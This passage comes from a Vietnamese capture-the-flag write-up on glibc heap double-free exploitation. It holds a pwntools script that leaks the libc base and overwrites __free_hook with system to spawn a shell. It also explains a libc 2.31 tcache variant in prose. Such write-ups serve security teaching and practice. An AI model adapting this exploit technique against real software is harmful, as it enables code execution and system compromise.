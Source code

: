 ```
    sa(b'Content: ', content)

def erase():
    sla(b'> ', b'3')

def read():
    sla(b'> ', b'4')

def exit():
    sla(b'> ', b'5')

buy(0x70, b'a'*0x70)
erase()
write(p64(0x404010))
buy(0x70, b'a'*0x70)
buy(0x70, b'\x20')
read()
ru(b'Content: ')
libc.address = u64(r(6) + b'\x00\x00') - 0x39c620
log.info(hex(libc.address))
log.info(hex(libc.sym['__free_hook']))
pl = p64(libc.address + 3786272) + p64(0)
pl += p64(libc.address + 3782880) + p64(0)
pl += p64(libc.address + 3786048) + p64(0)
pl += p64(0) + p64(libc.sym['__free_hook'])
write(pl)
write(p64(libc.sym['system']))
buy(0x10, b'/bin/sh')
erase()

p.interactive()
```

# Double free 2.31

## Phân tích
- Source bài này giống y hệt libc 2.23 nên ta sẽ không phân tích lại source, ta sẽ đi vào phần heap luôn
![image](https://hackmd.io/_uploads/SkWb_bR01l.png)
- Vùng fd = 0, nhưng sau vùng fd có địa chỉ rác, địa chỉ này sẽ giúp chương trình nhận biết vùng nhớ đã free hay chưa, nếu ta thay đổi vùng này thì ta có thể free thêm 1 lần nữa
- Sau khi free 2 lần thì fd-> fd, `0x156d32a0 -> 0x156d32a0`, sau đó nếu ta thay đổi giá trị tại địa chỉ này, thì chunks cũng sẽ bị thay đổi theo
![image](https://hackmd.io/_uploads/H1is5WR0ye.png)
![image](https://hackmd.io/_uploads/SkL1sZ0R1l.png)
- Khi ta malloc lần 1 sẽ trả về vùng `0x156d3290`, lần 2 sẽ trả về vùng `0x404050`, sau đó ta có thể thay đổi con trỏ ptr
![image](https://hackmd.io/_uploads/HJru3-A01e.png)
- Ta thay đổi con trỏ ptr về stderr để leak libc, sau đó thực hiện lại double free, nhưng lần này thay đổi con trỏ ptr về __free_hook thay đổi thành địa chỉ system
- Sau đó ta free vùng chứa chuỗi '/bin/sh' để lấy shell
![image](https://hackmd.io/_uploads/HkTQ6WA0kg.png)
